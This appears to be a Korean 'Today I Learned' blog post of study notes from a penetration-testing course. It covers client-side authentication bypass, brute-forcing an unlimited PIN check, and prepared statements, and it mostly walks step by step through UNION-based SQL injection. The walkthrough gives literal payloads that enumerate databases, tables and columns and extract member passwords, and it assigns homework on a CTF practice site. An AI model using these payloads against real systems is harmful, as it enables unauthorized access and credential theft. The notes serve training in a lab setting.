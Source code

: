 ```yaml
---
layout: post
title: "[TIL] 정리"
date: 2024-11-20
last_modified_at: 
excerpt: "모의해킹 취업반 스터디 7기 6주차"
tags: [TIL]
comments: true
---
```


클라이언트 측 인증

admin is mine -> 풀이과정 블로그 작성

session을 먼저 삽입하고 페이지 이동

분리
내가 비밀번호를 바꿀 수 있던지
비밀번호를 알아내던지

어떤 방식으로 고민을 해야 하는가?
어떻게 동작하느냐? -> 직접 만들어보기
sql query문 직접 실행해보기
왜 됐는 지 확인하기
1. 문제 원인 찾기
2. 문제 해결하기

하나씩

burp how to modify response

남들의 문제는 원인을 생각하지 마라

https://www.redirhub.com/ko/blog/redirect-types-and-seo-effects-2
https://developer.mozilla.org/ko/docs/Web/HTTP/Redirections

pincode crack 문제 직접 만들어보기
오류 횟수의 제한이 없다
-> 횟수의 제한을 두려면 어떻게 만들어야 하는가?

sql injection
-> prepared statement
1. db를 사용하는 곳
2. 그 데이터가 화면에 나오는가? 안 나오는가?
    1. 게시판
    2. 로그인, 아이디 중복체크 등

웹페이지에 데이터가 나오는 경우에서 데이터를 추출하는 방법
union
join은 안되냐??

order by
출력되는 데이터 정렬할 때 사용
SELECT ~ ORDER BY [COLUMN]

UNION SQL INJECTION
Process
1. sql injection 포인트 찾기
' and '1' = '1
2. column 개수 찾기
' order by 1...n #
3. 출력되는 column 위치 찾기
' union select 1, 2, 3, 4 #
-> select 1, 2, 3, 4가 왜 정상적으로 작동하는 거야???
-> ' union select 1, pass, 3, 4 from member #
4. db 이름 확인
select database()
-> ' union select 1, database(), 3, 4 from member #
5. table 이름 확인
select table_name from information_schema.tables where table_schema = [DB 이름]
-> ' union select 1, table_name, 3, 4 from information_schema.tables where table_schema = [DB 이름] #
6. column 이름 확인
select column_name from information_schema.columns where table_name = [table 이름]
-> ' union select 1, column_name, 3, 4 from information_schema.columns where table_name = [table 이름] #
7. data 추출

과제
1. union sql injection 복습
2. doldol 데이터만 출력하기 하나만 나오게
ctf.segfaulthub.com:1020/sqlinjection_2_1.php
3. ctf 문제 풀기
